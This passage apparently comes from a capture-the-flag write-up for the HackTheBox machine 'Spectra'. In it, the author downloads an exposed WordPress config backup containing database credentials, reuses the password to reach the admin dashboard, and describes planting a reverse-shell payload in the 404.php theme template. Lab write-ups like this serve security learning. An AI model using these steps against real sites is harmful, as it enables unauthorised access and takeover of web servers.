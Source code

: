 Without a running webapp to render these pages I can view and download any file from this wordpress testing site. Namely the **/testing/wp-config.php.save** is what I have my eyes set on but I do look around regardless.

![wp admin listing]({{ page.img }}_wpadmin_listing.png)

Nothing else here to check, onto the config file:

```bash
curl http://spectra.htb/testing/wp-config.php.save
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/support/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'dev' );

/** MySQL database username */
define( 'DB_USER', 'devtest' );

/** MySQL database password */
define( 'DB_PASSWORD', 'devteam01' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

...
```

Credentials for the database. I toss them at wordpress for no results under the username devtest. administrator:devteam1 however does let me into the wordpress admin dashboard. From here the simplest shell is to edit the 404.php template for a theme and navigate to it. I navigate to **http://spectra.htb/main/wp-admin/theme-editor.php?file=404.php&theme=twentynineteen** and add a revshell php cmd payload. 
